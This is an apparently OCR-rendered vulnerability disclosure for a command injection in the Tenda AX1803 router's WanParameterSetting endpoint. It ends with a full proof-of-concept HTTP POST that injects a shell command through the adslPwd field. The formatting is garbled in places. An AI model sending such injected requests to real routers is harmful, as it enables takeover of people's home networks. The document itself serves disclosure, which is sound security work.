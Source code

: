 

\#***\* Tenda ax1803 has a command injection vulnerability\****

\##* * * \ * overview\****

• ****\* type \ ****: command injection vulnerability

• * * * \ * supplier \ * * * *: Tenda（ https://tenda.com.cn ）

• ****\* product ****: WiFi router ax1803

• ***\* firmware download address:\**** https://www.tenda.com.cn/download/detail-3225.html

• ***\* firmware download address:\**** https://down.tenda.com.cn/uploadfile/AX1803/US_AX1803v2.1br_v1.0.0.1_2890_CN_ZGYD01.zip

Tendaax1803 router adopts WiFi 6 (802.11ax) technology, and the dual band concurrency rate is up to 1775mbps (2.4ghz:574mbps, 5ghz:1201mbps). Compared with the ac1200 router of the previous generation WiFi 5 standard, the wireless rate is increased by 50% and the transmission distance is longer; Equipped with 1.5GHz high-performance quad core processor, the network load capacity is comprehensively improved, data forwarding is faster, and long-term operation is more stable; Using ofdma+mu-mimo technology, more devices can access the Internet at the same time, the transmission efficiency is significantly improved, the delay is significantly reduced, and the online games and ultra clear videos for multiple people are more fluent. It is the first choice for building a multimedia home network! Command Execution Vulnerability in wanparametersetting



## ***\*Description\****

### ****1, Product Information:\****

Overview of the latest version of simulation for Tenda AX1803 router:

![image-20220624183557535](img/image-20220624183557535.png)

 

 

 

### ****2. Vulnerability Details\****

Tenda AX1803 was found to have a command injection vulnerability in the WanParameterSetting function

![image-20220624133917486](img/image-20220624133917486.png)

![image-20220625112118028](img/image-20220625112118028.png)

The non-zero is true, and when we change the adslPwd parameter, we get a command injection vulnerability after setting it.

![img](img/aaa.png)

 



\## ***\*3. Recurring loopholes and POC\****

To reproduce the vulnerability, the following steps can be followed:

Start firmware (real machine) via qemu-system or other means

Attack using the following POC attacks

Note the replacement of password fields in cookies

```
POST /goform/WanParameterSetting?0.8762489734485668 HTTP/1.1
Host: i92.168.68.150
Connection: close
Content-Length: 191
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="98", "Google Chrome";v="98"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.109 Safari/537.36
sec-ch-ua-platform: "macOS"
Origin: https://i92.168.68.150
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://192.168.2.1/main.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: password=edeff4d6d98974e46457a587e2e724a2ndy5gk

wanType=2&adslUser=aaaa&adslPwd=$(ls > /tmp/xxx)&vpnServer=&vpnUser=&vpnPwd=&vpnWanType=l&dnsAuto=1&staticIp=&mask=&gateway=&dnsl=&dns2=&module=wanl&downSpeedLimit=
```

 